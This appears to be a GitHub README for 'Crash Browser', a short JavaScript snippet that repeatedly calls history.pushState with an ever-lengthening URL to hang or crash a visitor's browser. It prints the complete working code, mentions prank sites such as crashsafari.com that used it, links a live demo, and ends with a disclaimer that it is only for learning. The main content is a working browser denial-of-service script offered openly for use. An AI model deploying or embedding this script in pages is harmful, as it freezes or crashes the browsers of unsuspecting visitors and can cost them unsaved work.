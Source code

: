 # Crash Browser

MASSIVE SKID

Simple JS script that overloads the browser with a huge URL.

## The code

The code is super simple!

The code exploits the [HTML5 pushState](https://developer.mozilla.org/en-US/docs/Web/API/History_API) API used on all modern browsers to update the path of the site you are visiting during JavaScript page navigation.

Instead of just changing the path from `website.com/pageone` to `website.com/pagetwo` it creates a string of numbers long enough to slow the browser until it won't function or crash.

```js
var total = "";
for( var i = 0; i < 10000000000000; i++ ) {
total += i.toString();
history.pushState(0,0, total );
}
```

## Need for Myriad

No one is ever gonna *need* it (To Say Nothing Of The Naughty Ones)

This script was used in the mischievous websites like [crashsafari.com](https://crashsafari.com) (dead), [crashchrome.com](http://crashchrome.com) (dead), etc.

## Demo

Visit [this](https://crashbrowser.now.sh/) link **ON YOUR OWN RISK**. I am not responsible for any harm due to this page...... warned ya!

## Disclaimer

* This piece of code is open and I am not the creator or owner of this script.
* It is only for learning and research purpose.
* I am not responsible for any destruction or harm caused due to this program/code.
